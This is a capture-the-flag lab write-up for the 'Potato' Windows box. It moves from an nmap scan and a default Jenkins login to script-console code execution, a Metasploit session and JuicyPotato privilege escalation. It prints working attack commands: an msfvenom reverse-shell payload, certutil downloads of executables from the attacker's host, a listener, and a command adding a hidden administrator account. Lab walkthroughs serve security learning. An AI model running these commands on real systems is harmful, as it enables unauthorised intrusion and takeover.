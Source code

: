 # Cybersec Labs- Potato

>Abdullah Rizwan | 03:14 PM , 31st October ,2020

## NMAP

```
Host is up (0.22s latency).                                                                                                                  [13/50]
Not shown: 990 closed ports          
PORT      STATE SERVICE            VERSION                                
135/tcp   open  msrpc              Microsoft Windows RPC                                                                                            
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn                                                                                    
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds                                                             
3389/tcp  open  ssl/ms-wbt-server?                                        
| rdp-ntlm-info:                                                          
|   Target_Name: POTATO              
|   NetBIOS_Domain_Name: POTATO                                           
|   NetBIOS_Computer_Name: POTATO                                         
|   DNS_Domain_Name: Potato          
|   DNS_Computer_Name: Potato                                                                                                                       
|   Product_Version: 6.3.9600                                                                                                                       
|_  System_Time: 2020-10-31T10:14:06+00:00                                
| ssl-cert: Subject: commonName=Potato                                    
| Not valid before: 2020-10-30T07:00:02                                   
|_Not valid after:  2021-05-01T07:00:02                                   
8080/tcp  open  http               Jetty 9.4.z-SNAPSHOT                   
| http-robots.txt: 1 disallowed entry                                     
|_/                                  
|_http-server-header: Jetty(9.4.z-SNAPSHOT)                               
|_http-title: Site doesn't have a title (text/html;charset=utf-8).                                                                                  
49152/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49153/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49154/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49155/tcp open  msrpc              Microsoft Windows RPC                                                                                            
49163/tcp open  msrpc              Microsoft Windows RPC                                                                                            
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                            

Host script results:                 
|_nbstat: NetBIOS name: POTATO, NetBIOS user: <unknown>, NetBIOS MAC: 0a:79:b7:7d:7b:a0 (unknown)                                                   
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)                                                                                
| smb-security-mode:                 
|   account_used: guest              
|   authentication_level: user                                            
|   challenge_response: supported                                         
|_  message_signing: disabled (dangerous, but default)                    
| smb2-security-mode:                
|   2.02:                            
|_    Message signing enabled but not required                            
| smb2-time:                         
|   date: 2020-10-31T10:14:06                                             
|_  start_date: 2020-10-31T07:00:01                                       

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .    
```

## SMB Shares (PORT 139)

I tried to list the smb shares on the box , but we need an authenticated user to access the shares
```
root@kali:~/Cybersec Labs/Easy/Potato# smbclient -L \\\\172.31.1.19\\
Enter WORKGROUP\root's password: 
session setup failed: NT_STATUS_ACCESS_DENIED
root@kali:~/Cybersec Labs/Easy/Potato# 

```

## PORT 8080

<img src="https://imgur.com/8YtwWwv.png"/>

Let's try entering username `admin` and password `admin`

<img src="https://imgur.com/ltGq467.png"/>

We got in

Now looking at how to exploit `jenkins` visit `https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins`

<img src="https://imgur.com/rKYNgcf.png"/>

Now let's see if there is a RCE vulnerability here

```
def process = "cmd.exe /c dir".execute()
println "Found text ${process.text}"
```
`cmd.exe` invokes command prompt , `/c dir` will give the command to cmd to run `dir` (list directories)

<img src="https://imgur.com/h2sezF2.png"/>

Our command got executed

<img src="https://imgur.com/Lw7kF88.png"/>

Here it says that there is a metasploit exploit for jenkins

<img src="https://imgur.com/c1IZ2t7.png"/>

<img src="https://imgur.com/OXXkkBP.png"/>

Now this configuration didn't work because `TARGETURI` was not set correctly , you can see that in our case `TARGETURI` should be `/` because there is no `jenkins directory`  also it was not required to enter credentials but since we know it I entered them for the safe side

<img src="https://imgur.com/Hsc7ub6.png"/>

Wait for a minute to send the bytes to our target and we will have a meterpreter session

<img src="https://imgur.com/7mXx70Z.png"/>

Now this is looking overwhelming so that there are `key` files here but we donot what are they for , so let's upload `winpeas` for enumeration


<img src="https://imgur.com/K2k43mx.png"/>

<img src="https://imgur.com/FLctkrG.png"/>

<img src="https://imgur.com/dVcZH1D.png"/>

Here we can see that we can abuse this service to get escalated privileges

https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

https://github.com/ohpe/juicy-potato

Now we need to upload two executeables files on the target , first as you can see from the links that we gain `nt\authority` through juicy potato that will run our windows payload.

## Msfvenom

To generate a payload 

```
root@kali:~/Cybersec Labs/Easy/Potato# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.37 LPORT=7777 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

## JuicyPotato

Download juicypotato.exe

<img src="https://imgur.com/iMv7omY.png"/>


Host them on your local machine

```
root@kali:~/Cybersec Labs/Easy/Potato# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
`certutil.exe -urlcache -f http://10.10.1.37:80/JuicyPotato.exe JuicyPotato.exe`

`certutil.exe -urlcache -f http://10.10.1.37:80/shell.exe shell.exe`

<img src="https://imgur.com/wQUKh6t.png"/>

Now we have those two files on our target system


Set a meterperter listener

```
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.1.37:7777 

```

<img src="https://imgur.com/EpDqm3E.png"/>

Now get the user and root flag

<img src="https://imgur.com/0zM0Zr6.png"/>

<img src="https://imgur.com/y4nMSLv.png"/>

# Extra RDP (PORT 3389)

We can also access the system through GUI , metasploit has a command that can add a user with system privleges 

```
meterpreter > run getgui -u arz -p $123aBc

[!] Meterpreter scripts are deprecated. Try post/windows/manage/enable_rdp.
[!] Example: run post/windows/manage/enable_rdp OPTION=value [...]
[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Setting user account for logon
[*]     Adding User: arz with Password: $123aBc
[*]     Hiding user from Windows Login screen
[*]     Adding User: arz to local group 'Remote Desktop Users'
[*]     Adding User: arz to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup use command: run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20201031.3756.rc

```
I used this password because password policy wasn't allowing me to set a simple password 

Using `remmina` 

<img src="https://imgur.com/aQpYliu.png"/>

And we can now control the whole system through GUI as well
<img src="https://imgur.com/hv7XNKR.png"/>
